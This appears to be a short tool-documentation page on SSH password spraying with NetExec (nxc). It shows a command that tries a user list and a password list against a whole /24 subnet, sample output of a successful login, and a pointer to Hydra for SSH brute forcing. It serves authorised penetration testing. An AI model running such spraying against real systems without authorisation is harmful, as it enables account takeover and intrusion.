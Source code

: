 # Password spraying

### Password spraying (without bruteforce)

```bash
nxc ssh $TARGET/24 -u $USERFILE -p $PASSFILE --no-bruteforce
```

Expected Results:

```bash
SSH         127.0.0.1       22     127.0.0.1        [*] SSH-2.0-OpenSSH_8.2p1 Debian-4
SSH         127.0.0.1       22     127.0.0.1        [+] user:password
```

{% hint style="info" %}
By default nxc, will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.
{% endhint %}

You can also use [Hydra](https://github.com/vanhauser-thc/thc-hydra) available by default on Kali to bruteforce SSH passwords, it's faster and better :)

{% embed url="https://github.com/vanhauser-thc/thc-hydra" %}
